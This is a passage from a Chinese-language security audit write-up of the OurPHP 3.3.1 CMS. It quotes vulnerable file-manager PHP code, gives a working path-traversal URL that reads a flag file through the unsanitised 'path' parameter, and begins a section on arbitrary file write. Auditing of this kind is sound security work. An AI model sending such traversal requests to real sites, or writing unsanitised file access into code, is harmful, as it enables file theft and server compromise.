 ```php
                    mode: "markdown"
                });
                </script>
            ';
        }
    }
```

非常明显的：

```php
            $openfile = file_get_contents($_GET['path']);
            $openfile = str_replace("<textarea", "<ourphp_", $openfile);
            $openfile = str_replace("</textarea>", "</ourphp_>", $openfile);
```

直接读：

```
http://www.ourphp331.com/client/manage/ourphp_filebox.php?path=../../../../../../../../../../../../../../../../flag&edit
```

![pic30](OurPHP3.3.1审计与测试.assets/pic30.png)



## 任意文件写入1

还是模板这里，漏洞开始于`client/manage/ourphp_filebox.php`函数的第205行：

```php
    if(isset($_GET['ok']))
    {
        if(empty($_POST['code']) || empty($_POST['md'])){
           $list = '<h1 style="float:left; margin-top:30px; padding-bottom:30px; font-size:20px; width:100%; text-align:center;">不能为空呀！</h1>';
        }
        $md = explode("|", $_POST['md']);
        $md2 = MD5($md[0].$ourphp['safecode']);
        if($md[1] != $md2){
            $list = '<h1 style="float:left; margin-top:30px; padding-bottom:30px; font-size:20px; width:100%; text-align:center;">验证不通过呀！</h1>';
        }

        $code = $_POST['code'];
		if(get_magic_quotes_gpc())
		{
			$code = stripslashes($code);
		}
        $code = str_replace("<ourphp_", "<textarea", $code);
        $code = str_replace("</ourphp_>", "</textarea>", $code);
```